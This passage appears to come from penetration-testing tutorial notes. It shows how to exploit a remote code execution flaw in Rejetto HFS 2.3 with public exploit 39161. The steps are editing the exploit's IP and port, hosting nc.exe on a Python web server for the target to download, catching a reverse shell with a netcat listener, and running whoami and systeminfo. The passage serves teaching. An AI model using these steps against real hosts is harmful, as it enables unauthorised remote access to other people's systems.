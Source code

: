 This version of the Rejetto HFS is vulnerable to a remote code execution vulnerability that can be exploited both manually and automatically with Metasploit, however, in this case, we will be taking a look at how to exploit this vulnerability manually with publicly accessible exploit code.

```shell
searchsploit HTTP File Server 2.3
# We can copy the exploit file to our current working directory with Searchsploit.
searchsploit -m 39161
# This exploit, while functional, does not work out of the box and needs to be modified per the environment you are working in and the configuration of the target.
```

Now that we have copied the exploit to our current working directory, we can modify it with VIM.

```shell
vim 39161 # We can see that this is a python exploit. 
# This exploit requires you to change the local IP and local port values.
# ip_addr
# local_port
```

After modifying the exploit code, we can run it with Python to ensure that it works correctly. For this exploit to work, you will need to host the nc.exe on a web-server as the exploit will download it to the target system. Kali Linux comes pre-packaged with various Windows binaries, one of which is the nc.exe executable found under:

- `/usr/share/windows-resources/binaries/nc.exe`

We can copy the nc.exe executable to the Desktop by running the following command:

```shell
cp /usr/share/windows-resources/binaries/nc.exe /root/Desktop/ # or .

# After copying the nc.exe executable to the Desktop, we can host it by setting up an HTTP server on port 80 with Python.
python -m SimpleHTTPServer 80 # Terminal1

# Next, we will need to open a new terminal window where we will set up the Netcat listener to receive the connection from the target once the exploit script is executed.
nc -nvlp <port_number_set> # Terminal 2

python 39161.py <target-ip> 80 # Terminal 3. Run it twice

# If the exploit script runs successfully, we should receive a reverse shell on our Netcat listener.
# We should see the reverse shell.
whoami
systeminfo
```

<br>

## 4. Bind & Reverse Shells

### 4.1. Netcat Fundamentals
